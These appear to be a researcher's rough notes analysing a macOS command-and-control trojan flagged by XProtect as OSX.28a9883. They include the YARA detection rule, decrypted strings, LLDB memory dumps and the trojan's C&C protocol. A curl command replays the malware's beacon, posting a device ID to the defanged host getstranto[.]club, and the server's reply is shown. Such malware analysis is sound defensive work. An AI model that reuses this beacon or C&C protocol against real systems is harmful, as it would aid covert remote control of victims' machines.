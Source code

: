 ```yaml
---
title: Obfuscated Strings in Objective-C
categories:
  - Malware
tags:
  - macOS
  - LLDB
  - Objective-C
---
```


https://github.com/knightsc/XProtect/commit/11e2d334ad6669a3c0e5b51c703561d6d8931e9d#diff-392ce1bf29fe5173ffdc7d5ef2c03d37R12

```
rule XProtect_OSX_28a9883
{
    meta:
        description = "OSX.28a9883"
     strings:
        $a1 = { 3A 6C 61 62 65 6C 3A 70 6C 69 73 74 50 61 74 68 3A }
		$a2 = { 3A 62 69 6E 3A 70 6C 69 73 74 3A }
		$a3 = { 21 40 23 24 7E 5E 26 2A 28 29 5B 5D 7B 7D 3A 3B 3C 3E 2C 2E 31 71 32 77 33 65 34 72 35 74 36 79 37 75 38 69 39 6F 30 70 41 5A 53 58 44 43 46 56 47 42 48 4E 4A 4D 4B 4C 51 57 45 52 54 59 55 49 }
     condition:
        Macho and all of ($a*)
}
```
description = "OSX.28a9883"

:label:plistPath:
:bin:plist:
!@#$~^&*()[]{}:;<>,.1q2w3e4r5t6y7u8i9o0pAZSXDCFVGBHNJMKLQWERTYUI

https://www.virustotal.com/#/file/0b8cc9df1b6a1c11e9a758a2c4ed3a35e51a163ede0cfd172781ae9a4a059e93/details

iBVe5F>ESBIF = karma
~N<qU0e4tZqTwL#6 = uncooked
4CGGQ<2Sqe{4Xo0#$G = overprice
7,..:I)<AqXA,Xe) = strainer
JM)5}r5R]J&E;i! = distill

3@oYGJqe1AT@r@:7#^74Z7WC$7 = %@/LaunchAgents 

&qGy;,7 = “1” // 0x31

R9 = !@#$~^&*()[]{}:;<>,.1q2w3e4r5t6y7u8i9o0pAZSXDCFVGBHNJMKLQWERTYUI

0x10002b3e0
0xff

0x10002b3e0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b3f0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b400: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b410: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b420: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b430: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b440: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b450: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b460: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b470: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b480: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b490: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4a0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4b0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4c0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4d0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f

After first loop of cDecryptString

x/200x 0x10002b3e0
0x10002b3e0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b3f0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b400: 0x027f007f 0x7f067f03 0x7f070908 0x7f137f12
0x10002b410: 0x18161426 0x201e1c1a 0x0f0e2422 0x7f117f10
0x10002b420: 0x2d312801 0x302e3a2c 0x36343f32 0x7f333537
0x10002b430: 0x2a3b387f 0x392f3e3c 0x0a293d2b 0x7f050b7f
0x10002b440: 0x7f7f7f7f 0x7f7f197f 0x7f7f237f 0x257f7f7f
0x10002b450: 0x7f1b1527 0x177f211d 0x0c7f1f7f 0x7f040d7f
0x10002b460: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b470: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b480: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b490: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4a0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4b0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4c0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f
0x10002b4d0: 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f 0x7f7f7f7f

URL https://www[.]getstranto[.]club/agent/
Accept: application/json
Content-Type: application/json; charset=UTF-8
POST

json body
{
Id. IOPlatformUUID
v “1”
g. “?”
}



curl -i \
-H "Accept: application/json" \
-H "Content-Type: application/json; charset=UTF-8" \
-X POST \
-d ‘{id: "818e9fa0-733b-43a4-a54a-968141dbc67e", v:"1",g:""}’ \
https://www[.]getstranto[.]club/agent/


"cmd”:"ping"

"cmd”:"execreply"

"cmd":"log"
"Msg":


Seems to be just a simple C&C trojan. Installs itself as a LaunchAgent and then tries to connect to C&C
```curl -i -H "Accept: application/json" -H "Content-Type: application/json; charset=UTF-8" -X POST -d '{"id": "818e9fa0-733b-43a4-a54a-968141dbc67e", "v":"1", "g":""}' https://www[.]getstranto[.]club/agent/

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Cache-Control: no-cache, private
Date: Wed, 15 Aug 2018 16:02:07 GMT

{"result":"schedule","sleep":"770","count":0}```

It’s just weird that in the XProtect 2099 file Apple didn’t give it a name and just called it `OSX.28a9883`